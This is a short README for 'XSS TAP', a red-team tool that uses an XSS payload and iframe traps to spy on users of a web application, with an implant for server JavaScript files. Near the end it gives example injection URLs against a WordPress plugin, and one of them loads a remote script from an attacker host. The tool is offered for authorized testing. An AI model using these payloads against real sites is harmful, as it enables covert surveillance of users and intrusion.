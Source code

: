 # XSS TAP
Tailored XSS payload that uses iFrame traps to spy on user. Intended for redteam ops. 
@hoodoer

Ok, this is getting refactored into both an iframe trap payload, and an implant
that can be dropped into an application server's javascript files. 

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 

Server ones:
flask
flask-cors

Generator ones:
dataframe_image
fpdf
progressbar


HTML Parser:
bs4




https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://192.168.2.61:8444/lib/telemlib.js%27%3E%3C/script%3E





https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E

